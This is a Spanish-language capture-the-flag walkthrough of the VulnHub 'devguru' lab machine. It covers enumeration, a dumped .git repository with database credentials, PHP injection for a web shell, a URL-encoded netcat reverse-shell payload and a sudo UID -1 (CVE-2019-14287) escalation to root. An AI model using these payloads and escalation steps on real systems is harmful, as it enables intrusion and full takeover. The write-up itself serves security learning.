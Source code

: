```yaml
---
layout: post
title: devguru - VulnHub
subtitle: devguru - VulnHub
tags: [gitea,sudo,october,gitdumper]
---
```


## Enumeración de puertos

```
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
8585/tcp open  unknown
```

### Servicio web 80

![web](../assets/imgs/devguru/web.png)

#### Fuzzing web

```
❯ dirsearch -u "http://192.168.0.108/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -e php,txt,html
[...]
[17:26:13] 301 -  315B  - /themes  ->  http://192.168.0.108/themes/
[17:26:13] 200 -   12KB - /0
[17:26:13] 301 -  316B  - /modules  ->  http://192.168.0.108/modules/
[17:26:13] 200 -   18KB - /about
[17:26:14] 301 -  316B  - /storage  ->  http://192.168.0.108/storage/
[17:26:14] 301 -  316B  - /plugins  ->  http://192.168.0.108/plugins/
[17:26:15] 200 -   18KB - /About
[17:26:15] 200 -   10KB - /services
[17:26:16] 200 -   12KB - /
[17:26:16] 302 -  410B  - /backend  ->  http://192.168.0.108/backend/backend/auth
[17:26:18] 200 -   10KB - /Services
[17:26:19] 301 -  315B  - /vendor  ->  http://192.168.0.108/vendor/
[17:26:19] 301 -  315B  - /config  ->  http://192.168.0.108/config/
[17:28:17] 200 -    2KB - /artisan
CTRL+C detected: Pausing threads, please wait...
```

```
❯ ffuf -w /usr/share/wordlists/dirb/common.txt -c -t 200 -u "http://192.168.0.110/FUZZ"
[...]
.git/HEAD               [Status: 200, Size: 23, Words: 2, Lines: 2]
.htaccess               [Status: 200, Size: 1678, Words: 282, Lines: 53]
about                   [Status: 200, Size: 18661, Words: 977, Lines: 478]
                        [Status: 200, Size: 12669, Words: 929, Lines: 331]
0                       [Status: 200, Size: 12669, Words: 929, Lines: 331]
About                   [Status: 200, Size: 18661, Words: 977, Lines: 478]
backend                 [Status: 302, Size: 410, Words: 60, Lines: 12]
config                  [Status: 301, Size: 315, Words: 20, Lines: 10]
index.php               [Status: 200, Size: 12719, Words: 929, Lines: 331]
modules                 [Status: 301, Size: 316, Words: 20, Lines: 10]
plugins                 [Status: 301, Size: 316, Words: 20, Lines: 10]
```

![git](../assets/imgs/devguru/git.png)

**Adminer**: Es una herramienta para administrar contenido en base de datos MySQL.  
A diferencia de `phpMyAdmin`, que solo permite la gestión de las base dedatos MySQL y MariaDB, Adminer tambien admite la gestión de otras bases de datos como PostgreSQL, SQLite, MSSQL Oracle, SimpleDB, ElasticSearch, MongoDB y Firebird.

![adminer](../assets/imgs/devguru/adminer.png)

**git-dumper**: Una herramienta para volcar un repositorio git de un sitio web.

Dento de los directorios extraidos encuentro un archivo de configuración con credenciales una base de datos.

```
❯ tree -L 1
.
├── adminer.php
├── artisan
├── bootstrap
├── config
├── index.php
├── modules
├── plugins
├── README.md
├── server.php
├── storage
└── themes
```

```
'mysql' => [
    'driver'     => 'mysql',
    'engine'     => 'InnoDB',
    'host'       => 'localhost',
    'port'       => 3306,
    'database'   => 'octoberdb',
    'username'   => 'october',
    'password'   => 'SQ66EBYx4GT3byXH',
    'charset'    => 'utf8mb4',
    'collation'  => 'utf8mb4_unicode_ci',
    'prefix'     => '',
    'varcharmax' => 191,
],
```

----

#### Análisis del hash

```
❯ hashid "\$2y\$10\$hnhKQ8hTe9b3SoZgXhBuT.HG17VvEdBXe86hEq1qdIknkcM1rbxYi"
Analyzing '$2y$10$hnhKQ8hTe9b3SoZgXhBuT.HG17VvEdBXe86hEq1qdIknkcM1rbxYi'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 
```

![hash](../assets/imgs/devguru/hash.png)

Dentro de la interfaz de `adminer` modifico las contraseña del usuario `Frank`

```
test : $2a$10$c4b4IfTgjHPqO614kO56tOJJ2jyK4Mrl4BLfWYSAe9lP1jddETJIe
```

![pass](../assets/imgs/devguru/pass.png)

Con las credenciales cambiadas fue posible ingresar al panel de administración.

Inyección de codigo php en el panel

![cmd](../assets/imgs/devguru/cmd.png)

![cmd2](../assets/imgs/devguru/cmd2.png)

Obtenemos una web shell

![rce](../assets/imgs/devguru/rce.png)

### Shell como www-data

Payload: `http://192.168.0.110/?cmd=bash+-c+%22rm+%2Ftmp%2Ff%3Bmkfifo+%2Ftmp%2Ff%3Bcat+%2Ftmp%2Ff%7C%2Fbin%2Fsh+-i+2%3E%261%7Cnc+192.168.0.107+4444+%3E%2Ftmp%2Ff%22`


```
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.0.107] from (UNKNOWN) [192.168.0.110] 33542
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

### Usuario frank

Ejecucion de `LinEnum.sh` arroja un archivo de seguridad

```
[-] Location and Permissions (if accessible) of .bak file(s):
-rw-r--r-- 1 frank frank 56688 Nov 19  2020 /var/backups/app.ini.bak
-rw-r--r-- 1 root root 16 Nov 19  2020 /usr/local/bin/data/queues/notification-service/CURRENT.bak
[...]
```

Contraseña de la base de datos de `gitea`.

```
www-data@devguru:/tmp$ cat /var/backups/app.ini.bak | grep -i "passwd"
; Use PASSWD = `your password` for quoting if you use special characters in the password.
PASSWD              = UfFPTF8C8jjxVF2m
RESET_PASSWD_CODE_LIVE_MINUTES                = 180
; Use PASSWD = `your password` for quoting if you use special characters in the password.
PASSWD             = 
; Use PASSWD = `your password` for quoting if you use special characters in the password.
PASSWD    = 
```

PoC : [https://podalirius.net/en/articles/exploiting-cve-2020-14144-gitea-authenticated-remote-code-execution/](https://podalirius.net/en/articles/exploiting-cve-2020-14144-gitea-authenticated-remote-code-execution/)

Se recomienda actualizar a la versión 1.13.0.

Cambio la contraseña de usuario `frank` dentro de la tabla `user`

Panel de gitea como usuario `frank`

![giteaPanel](../assets/imgs/devguru/giteaPanel.png)


Versión vulnerable de gitea

![version](../assets/imgs/devguru/version.png)

## Escalada de privilegios

Si sudo permite que el binario se ejecute como superusuario, no elimina los privilegios elevados y puede usarse para acceder al sistema de archivos, escalar o mantener el acceso privilegiado.

```
User frank may run the following commands on devguru:
    (ALL, !root) NOPASSWD: /usr/bin/sqlite3
```

```
frank@devguru:~/gitea-repositories/frank/test.git$ sudo -V
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

Recursos:

[https://gtfobins.github.io/gtfobins/sqlite3/#sudo](https://gtfobins.github.io/gtfobins/sqlite3/#sudo)

[https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)

**CVE: 2019-14287**: joe Vennix descubrió que si se especifica un UID de -1(o su equivalente sin firmar: 4294967295), sudo leería incorrectamente esto como 0(es decir root). Esto significa que al especificar un UID de -1 o 4294967295, puede ejecutar un comando como root, a pesar de sele impida explícitamente hacerlo. Vale la pena señalar que esto sólo funcionará si se le han otorgado permisos sudo noroot para el comando.

PoC : `sudo -u#-1 <comando>`


```
frank@devguru:~/gitea-repositories/frank/test.git$ sudo -u#-1 sqlite3 /dev/null '.shell /bin/sh'
# whoami
root
```
